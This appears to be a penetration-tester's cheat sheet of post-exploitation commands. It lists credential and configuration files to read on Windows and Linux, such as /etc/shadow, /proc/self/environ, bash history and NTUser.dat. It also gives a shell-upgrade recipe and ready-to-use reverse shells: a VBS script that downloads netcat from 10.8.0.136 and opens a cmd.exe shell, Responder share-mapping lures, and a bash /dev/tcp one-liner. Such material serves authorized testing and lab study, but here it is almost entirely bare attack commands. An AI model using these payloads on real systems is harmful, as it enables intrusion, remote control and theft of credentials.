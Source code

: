 
# General
## Important Files
- Windows
```bash
C:\Windows\System32\drivers\etc\hosts
C:\inetpub\logs\LogFiles\W3SVC1\
C:\inetpub\wwwroot\web.config
C:\xampp\apache\logs\
C:/Users/Administrator/NTUser.dat
C:/xampp/phpMyAdmin/config.inc.php
C:\ProgramData\McAfee\Agent\DB\ma.db
```

- Linux
```bash
/opt/*
/var/mail
/var/log/apache2/access.log
/config/.htusers.php
/proc/self/environ
/proc/self/cmdline
/home/user/.bash_history
/home/user/.bash_aliases
/etc/passwd
/etc/shadow
/etc/aliases

# python related
main.py
app.py
settings.ini
applicationName.config
applicationName.cfg
```
## Upgrade Shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
hit ctrl+z to background our shell and get back on our local terminal, and input the following stty command:
  stty raw -echo
  fg
  [Enter]
  [Enter]
  export TERM=xterm-256color
  stty rows 67 columns 318
```

## Reverse Shell
```bash
# vbs reverse shell
Set oShell = CreateObject("Wscript.Shell")
oShell.run "cmd.exe /c curl 10.8.0.136/nc64.exe -o C:\Windows\Temp\nc64.exe"
oShell.run "cmd.exe /c C:\Windows\Temp\nc64.exe 10.8.0.136 2222 -e cmd.exe"

# vbs with responder
MapNetworkShare "\\192.168.45.202\UwU", "A"
MapNetworkShare "\\192.168.45.202\OwO", "Z"

# bash reverse shell
bash -i >& /dev/tcp/192.168.45.x/80 0>&1
```